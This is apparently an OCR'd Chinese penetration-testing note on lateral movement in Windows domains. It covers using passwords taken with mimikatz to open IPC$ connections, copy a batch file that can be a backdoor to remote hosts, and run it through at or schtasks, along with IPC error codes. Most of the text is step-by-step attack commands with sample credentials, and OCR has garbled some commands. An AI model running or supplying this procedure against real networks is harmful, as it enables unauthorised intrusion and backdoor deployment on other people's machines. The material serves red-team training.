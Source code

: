 ## 横向渗透

### 横向渗透明文传递at&schtasks

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机?这里仅介绍at&schtas ks命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。
获取到某域主机权限->minikatz得到密码(明文，hash) ->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接- > 创建计划任务(at |schtasks)->执行文件可为后门]或者相关命令
利用流程
1.建立IPC链接到目标主机
2.拷贝要执行的命令脚本到目标主机

3.查看目标时间，创建计划任务(at、 schtasks)定时执行拷贝到的脚本
4.删除IPC链接

```
net use \\server\ipc$ "password" /user:username #工作组，
net use \\ server\ipc$ "password" /user :domain \username # 域内
dir \ \xx.xX. xX.xx\C$\	#查看文件列表
copy \\xx.xx.xx. xx\C$\1.bat 1.bat 	# 下载文件
copy 1.bat \\xx.xx.xx.xx\C$ 	# 复制文件
net use \\xx. xx.xx.xx\C$\1.bat /del 	# 删除IPC
net view XX.XX.XX.XX	#查看对方共享
```

建立I PC常见的错误代码

```
(1) 5:拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
(2) 51:网络问题，Windows 无法找到网络路径
(3) 53:找不到网络路径，可能是IP地址错误、 目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
(4) 67:找不到网络名，本地Lanmanwor kstation服务未启动，目标删除ipc$ 
(5) 1219:提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
(6) 1326:账号密码错误
(7) 1792: 目标Ne tLogon服务未启动，连接域控常常会出现此情况
(8) 2242:用户密码过期，目标有账号策略，强制定期更改密码
```

建立IPC失败的原因

```
(1)目标系统不是NT或以上的操作系统
(2)对方没有打开IPC$共享
(3)对方未开启139、445端口，或者被防火墙屏蔽
(4)输出命令、账号密码有错误
```

#### [ at] & [ schtasks]

at < Windows2012

```
net use \\192.168.3.21 \ipc$ "Admin12345" /user:god.org\administrator 		#建立ipc连接
copy add.bat \\192.168.3.21\c$ 			#拷贝执行文件到目标机器 
at \\192.168.3.21 15: 47 C:\add.bat	    #添加计划任务
```
